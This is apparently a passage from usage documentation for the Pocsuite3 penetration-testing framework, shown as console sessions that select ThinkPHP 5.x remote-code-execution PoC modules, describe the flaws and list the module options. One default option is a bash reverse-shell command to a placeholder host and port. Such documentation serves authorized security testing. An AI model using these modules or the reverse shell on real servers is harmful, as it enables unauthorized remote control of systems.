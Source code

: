 ```
vulType              Code Execution
desc                 Thinphp团队在实现框架中的核心类Requests的method方法实现了表单请求类型伪装，默认为$_POST[‘_method’]变量，却没有对$_POST[‘_method’]属性进行严格校验，可以通过变量覆盖掉Requets类的属性并结合框架特性实现对任意函数的调用达到任意代码执行的效果。
```

或者

```
Pocsuite3 (pocs/thinkphp_rce) > search think
+-------+--------------------+
| Index |        Path        |
+-------+--------------------+
|   0   | pocs/thinkphp_rce  |
|   1   | pocs/thinkphp_rce2 |
+-------+--------------------+
Pocsuite3 (pocs/thinkphp_rce) > use 1
Pocsuite3 (pocs/thinkphp_rce2) > show info

name                 ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用（GetShell）
version              1.0
author               ['chenghs']
vulDate              2018-12-09
createDate           2018-12-10
updateDate           2018-12-10
references           ['https://www.seebug.org/vuldb/ssvid-97715']
appPowerLink         http://www.thinkphp.cn/
appName              thinkphp
appVersion           thinkphp5.1.31
vulType              Code Execution
desc                 ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新
    ，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。
```



#### back 返回上一层

```
Pocsuite3 (pocs/thinkphp_rce2) > back
Pocsuite3 > 
```



### show options 显示相关选项

```
Pocsuite3 (pocs/thinkphp_rce2) > show options

Target options:
+---------+------------------+---------+---------------------------------------------------+
|   Name  | Current settings |   Type  |                       Descript                    |
+---------+------------------+---------+---------------------------------------------------+
|  target |    *require*     |  String |                ip:port (file://)                  |
| referer |                  |  String |              HTTP Referer header value            |
|  agent  |                  |  String |         HTTP User-Agent header value              |
|  proxy  |                  |  String |         Use a proxy to connect to the target URL  |
| timeout |        30        | Integer |     Seconds to wait before timeout connection     |
+---------+------------------+---------+---------------------------------------------------+

Module options:
+---------+--------------------------------+------+----------------------------------------+
|   Name  |        Current settings        | Type |        Descript                        |
+---------+--------------------------------+------+----------------------------------------+
| command | sh -i >& /dev/tcp/{0}/{1} 0>&1 | Dict |                                        |
|         |                                |      |bash:sh -i >& /dev/tcp/{0}/{1} 0>&1     |
|         |                                |      |                                        |
```